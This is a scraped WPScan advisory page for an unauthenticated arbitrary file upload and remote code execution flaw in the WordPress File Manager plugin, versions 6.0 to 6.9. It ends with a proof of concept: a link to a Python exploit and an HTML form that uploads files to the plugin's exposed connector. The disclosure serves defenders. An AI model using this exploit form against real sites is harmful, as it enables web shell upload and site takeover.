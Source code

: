 Target url https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9:
Skip to content

[](/)

  * [Features](https://a8cteam5105.wordpress.com/features/)
  * [Pricing](https://a8cteam5105.wordpress.com/pricing/)
  * Solutions
    * [Status](https://status.wpscan.com/)
    * [API Details](/api)
    * [CLI Scanner](https://a8cteam5105.wordpress.com/wordpress-cli-scanner/)
  * Vulnerabilities
    * [Themes](/themes)
    * [WordPress](/wordpresses)
    * [Plugins](/plugins)
    * [Stats](/statistics)
    * [Submit Vulnerabilities](/submit)
    * [Leaderboard](/leaderboard)
  * Resources
    * [Blog](/blog)
    * [Enterprise Features](https://a8cteam5105.wordpress.com/enterprise-customers-features/)
    * [How to Install WPScan](https://a8cteam5105.wordpress.com/how-to-install-wpscan/)
    * [WPScan Glossary](/wpscan-glossary)
    * [2024 Website Threat Report](https://wpscan.com/2023-website-threat-report/)



Search

Login[Talk to sales](/contact/enterprise)

##  WordPress Plugin Vulnerabilities

# File Manager 6.0-6.9 - Unauthenticated Arbitrary File Upload leading to RCE

### Description

Seravo noticed multiple cases where WordPress sites were breached using 0-day in wp-file-manager (confirmed with v6.8, which was the latest version available in wordpress.org).

File lib/php/connector.minimal.php can be by default opened directly, and this file loads lib/php/elFinderConnector.class.php which reads POST/GET variables, and then allows executing some internal features, like uploading files. PHP is allowed, thus this leads to unauthenticated arbitrary file upload and remote code execution.

It seems that this vulnerability was originally discovered and published publicly on Twitter on August 26th (see references), and was later seen being exploited in the wild by Seravo.

### Proof of Concept

https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py <html> <body> <form method="POST" enctype="multipart/form-data" action="https://example.com/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"> <input type="hidden" name="cmd" value="upload"/> <input type="hidden" name="target" value="l1_Lw"/> <input type="file" name="upload[]"/><br/><br/> <input type="submit" value="Upload"/> </form> </body>

